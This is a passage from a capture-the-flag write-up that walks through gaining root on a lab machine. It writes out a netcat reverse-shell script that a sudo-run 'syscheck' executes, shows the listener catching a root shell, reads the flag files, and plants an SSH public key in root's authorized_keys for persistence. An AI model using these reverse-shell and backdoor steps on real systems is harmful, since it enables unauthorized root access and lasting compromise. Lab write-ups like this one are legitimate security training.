 No, it doesn't exist, well, let's create it :

```bash
cd /tmp ; touch initdb.sh ; chmod +x initdb.sh ; echo '#!/bin/bash' > initdb.sh ; echo 'nc 10.10.16.2 9001 -e "/bin/bash"' >> initdb.sh
```

The command above goes into the `tmp` directory, creates a file called `initdb.sh`, makes it `executable`, adds the `/bin/bash` shebang, and adds the same method as before for connecting to a `TCP socket`.

We are now going to listen on port 9001 with netcat :

```bash
nc -lnvp 9001
```

All we have to do now is run the syscheck script :

```bash
sudo /usr/bin/syscheck
```

And now we have our TCP socket connection, and we are root :

```bash
listening on [any] 9001 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.8] 52308
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
hostname
headless
```

Let's get the flags :

```bash
find / -type f \( -name "user.txt" -o -name "root.txt" \) -exec bash -c 'cat "{}"' \; 2>/dev/null
```

Here they are :

```bash
593f5d226019dXXXXXXXXXXXXXXXXXXX
593f5d226019dXXXXXXXXXXXXXXXXXXX
```

Remember, port 22 is open, right ? This is the [ssh](https://en.wikipedia.org/wiki/Secure_Shell) service, so we'll try to get access via [ssh](https://en.wikipedia.org/wiki/Secure_Shell).

I've got a plan, we'll simply add our [public key](https://www.cloudflare.com/learning/ssl/how-does-public-key-encryption-work/) to the [authorized_keys](https://www.ssh.com/academy/ssh/authorized-keys-file) file of user root :

```bash
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIByRf3gQ5qapYPpW1J6vndTd69J7zRm2lmqvrjLt8dLw root@kali" >> /root/.ssh/authorized_keys
```
